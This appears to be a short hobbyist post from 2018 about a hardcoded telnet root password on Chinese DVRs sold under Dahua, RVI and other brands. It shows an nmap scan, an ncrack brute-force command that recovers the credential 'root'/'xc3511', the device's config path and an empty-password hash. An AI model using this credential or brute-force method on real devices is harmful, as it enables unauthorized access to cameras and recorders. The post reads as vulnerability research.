<h1>Hardcoded telnet login\password in Chinese DVR, like Dahua, RVI.</h1>

<br/>Also, it can be rebranded and sell under a different name.
<br/>
<br/>Nmap report looks interesting:
<br/>Nmap scan report for 192.168.100.15
<br/>Host is up (0.0050s latency).
<br/>Not shown: 65527 closed ports
<br/>
<br/>PORT      STATE    SERVICE        VERSION
<br/>
<br/>23/tcp    open     telnet         BusyBox telnetd
<br/>81/tcp    open     http           uc-httpd 1.0.0
<br/>445/tcp   filtered microsoft-ds
<br/>4090/tcp  open     ssl/omasgport?
<br/>9527/tcp  open     unknown
<br/>9528/tcp  open     unknown
<br/>34567/tcp open     dhanalakshmi?
<br/>34599/tcp open     unknown

Device type: WAP
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.36
OS details: DD-WRT v24-sp1 (Linux 2.4.36)
Network Distance: 5 hops
Service Info: Host: LocalHost

And, with ncrack i "recover" hardcored telnet creds.

ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
Discovered credentials for telnet on 192.168.100.15 23/tcp:
192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
Ncrack done: 1 service scanned in 27.06 seconds.
Ncrack finished.

Web-ui configuration files are stored in /mnt/mtd/Config/, but i did not understand password hash in file Account1.
Also, in my case sed did not work. Empty password hash - tlJwpbo6.

Still work on this.
